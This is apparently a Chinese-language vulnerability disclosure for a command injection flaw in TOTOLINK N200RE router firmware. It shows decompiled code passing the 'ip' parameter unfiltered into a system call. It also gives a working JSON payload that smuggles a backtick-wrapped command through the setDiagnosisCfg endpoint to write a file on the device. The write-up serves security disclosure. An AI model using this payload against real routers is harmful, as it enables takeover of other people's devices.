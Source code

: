 # TOTOLINK路由器N200RE存在命令执行漏洞

## 资产证明

截图如下：

![image-20250329134941430](https://cdn.jsdelivr.net/gh/zhech0/Pictures/202503291349590.png)

# 固件获取与证明型号

在官网下载该N200RE V5_Firmware V9.3.5u.6095_B20200916版本的固件

https://www.totolink.net/data/upload/20200924/6bb0fad48ff63e85b773fab4b88a19e2.zip



# 命令执行漏洞



![image-20250329135259165](https://cdn.jsdelivr.net/gh/zhech0/Pictures/202503291352269.png)



![image-20250329135305627](https://cdn.jsdelivr.net/gh/zhech0/Pictures/202503291353656.png)

看以看到这里是两个函数分开了但都属于通个部分

![image-20250329135317177](https://cdn.jsdelivr.net/gh/zhech0/Pictures/202503291353211.png)

int __fastcall sub_421DDC(int a1)

{

 const char *Var; // $s2

 int v3; // $v0

 int v4; // $v0

 char v6[128]; // [sp+18h] [-80h] BYREF

 

 memset(v6, 0, sizeof(v6));

 Var = (const char *)websGetVar(a1, "ip", "www.baidu.com");

 v3 = websGetVar(a1, "num", &byte_43A4B0);

 v4 = atoi(v3);

 sprintf(v6, "ping %s -w %d &>/var/log/pingCheck", Var, v4);

 doSystem(v6);

 setResponse(&word_438564, "reserv");

 return 1;

}

dosystem的时候直接对拼接的v6进行执行没有任何过滤直接用反引号闭合就可以任意命令执行了。

 

 

测试如下：

输入127.0.0.1  1条数抓包，点击发包

![image-20250329135333239](https://cdn.jsdelivr.net/gh/zhech0/Pictures/202503291353303.png)

这里将payload进行修改，修改恶意命令为可以任意写入文件到服务器：

{"ip":"`ls>/www/zhecho.txt`","num":"1","topicurl":"setDiagnosisCfg"}

![image-20250329135351111](https://cdn.jsdelivr.net/gh/zhech0/Pictures/202503291353145.png)

发包成功，接着到固件系统查ls命令查看，发现成功创建该zhecho.txt文件：

![image-20250329135402209](https://cdn.jsdelivr.net/gh/zhech0/Pictures/202503291354300.png)

![image-20250329135408954](https://cdn.jsdelivr.net/gh/zhech0/Pictures/202503291354013.png)
